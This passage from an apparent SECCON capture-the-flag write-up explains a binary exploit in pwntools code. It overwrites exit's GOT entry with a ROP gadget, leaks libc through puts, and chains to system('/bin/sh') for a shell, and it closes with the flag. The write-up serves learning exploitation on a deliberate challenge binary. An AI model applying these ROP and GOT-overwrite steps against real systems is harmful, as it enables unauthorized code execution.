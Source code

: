 First, overwrite `exit_got` with a `pop rdi; ret` gadget, and make sure that the first number we enter is `main`'s address, so that the `ret` in `pop rdi; ret` will jump back to main:
```python
# overwrite exit_got with pop rdi; ret
p.recv()
p.sendline('{} {} {} -1 +1 {}'.format(main, -main, pop_rdi - exit_got, exit_got))
```

Now that we have a way to control code execution any time we input 6 numbers, we can start with our ROP chains. 

The first thing to note is that no matter what we do, we ***will*** overwrite ***something*** in memory. Because of this, I chose the address 0x601080 in the `.bss` segment, which was already empty. Any time we do our ROP chain, I simply overwrote that address, which didn't affect the rest of the program.

For our first ROP chain, I simply called `puts(puts_got)` to get a leak. We have to put a `ret` gadget before calling `puts` to align the stack (because the provided libc is 2.27). Note that `garbage` refers to the address 0x601080 in the `.bss` segment I just mentioned.

In order to parse the leak though, the remote binary behaved differently to locally, which is why you see the `p.recvuntil` that only runs if we run the exploit remotely:
```python
# ROP to get libc leak
p.recv()
p.sendline('{} {} {} {} {} {}'.format(ret, pop_rdi, puts_got, puts, main, garbage))

# Remote binary behaves differently for whatever reason
if args.REMOTE:
    p.recvuntil('0\n')

leak = u64(p.recvline().strip('\n').ljust(8, '\x00'))
libc.address = leak - libc.symbols['puts']
system = libc.symbols['system']
bin_sh = next(libc.search('/bin/sh'))

log.info('Leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('/bin/sh: ' + hex(bin_sh))
```

After the libc leak, it's just another ROP chain to call `system('/bin/sh')`:
```python
# ROP to system('/bin/sh')
p.recv()
p.sendline('{} {} {} 1 1 {}'.format(pop_rdi, bin_sh, system, garbage))

p.interactive()
```

Flag: `SECCON{ret_call_call_ret??_ret_ret_ret........shell!}`

### **Final Exploit**
